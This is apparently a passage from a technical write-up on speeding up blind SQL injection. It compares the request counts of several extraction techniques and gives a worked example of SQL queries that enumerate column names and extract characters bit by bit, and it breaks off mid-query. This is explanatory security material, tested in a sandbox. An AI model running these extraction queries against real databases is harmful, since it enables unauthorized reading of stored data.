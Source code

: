 To illustrate the efficiency of these optimizations consider the following table showing the number of requests required to extract the text response from a query result with length 16:

Technique                            | Result Requests | Additional Requests      | Total Requests
-------------------------------------|-----------------|--------------------------|---------------
**Data extraction techniques**       |
Naive byte extraction                | 4,096           | 256 (LC)                 | 4,352
Divide and conquer byte extraction   | 128             | 8 (LC)                   | 136
*Bitwise byte extraction*            | 128             | 8 (LC)                   | **136**
**Character set optimizations**      |
ASCII character extraction           | 112             | 7 (LC)                   | 119
*Character set reduction*            | 96              | 6 (LC) + 1 (CS)          | **103**
**Multi bit requests**               |
Extracting 2 bits of information     | 48              | 3 (LC) + 1 (CS) + 1 (RC) | 53
*Extracting 3+ bits of information*  | 32              | 2 (LC) + 1 (CS) + 1 (RC) | **36**
`LC`: Length Check request
`CS`: Character Set request
`RC`: Result Confirmation request

Even over reasonably efficient bitwise ASCII character extraction the outlined optimizations can save 83 requests on a 16 character query result. On top of this, if the result we are querying is in a known or discovered input corpus it can often be extracted using result guessing in fewer than 8 requests.

# Thanks
Thanks to Pentest Monkey for the excellent SQL injection cheat sheets +[SQL Injection Cheat Sheets by Pentest Monkey](http://pentestmonkey.net/category/cheat-sheet/sql-injection).

Thanks to SQLZoo +[SQLZoo](http://sqlzoo.net/) for providing a sandbox in which these methods could be tested and refined.

# Worked Example

Worked example extracting 2 bits per request (result + temporal) with character set reduction to query all column names from a table called `games`:
```sql
-- The query we want to execute
SELECT
DISTINCT(column_name) FROM information_schema.columns
WHERE table_name='games';

-- Check character set is acceptable across all results
SELECT CASE WHEN (
  SELECT SUM(result) from (
    SELECT 1 as result from (
      SELECT
      DISTINCT(column_name) FROM information_schema.columns
      WHERE table_name='games'
    ) as x WHERE column_name REGEXP '[^ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789]'
  ) as y
) IS NULL THEN 1 ELSE 0 END;

-- Extract bits 1 & 2 of the first character of the first result
SELECT (
  -- Extract 1st bit through true/false result
  CASE WHEN (
    SELECT INSTR(
      'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789',
      SUBSTR(
        (
          SELECT
          DISTINCT(column_name) FROM information_schema.columns
          WHERE table_name='games'
```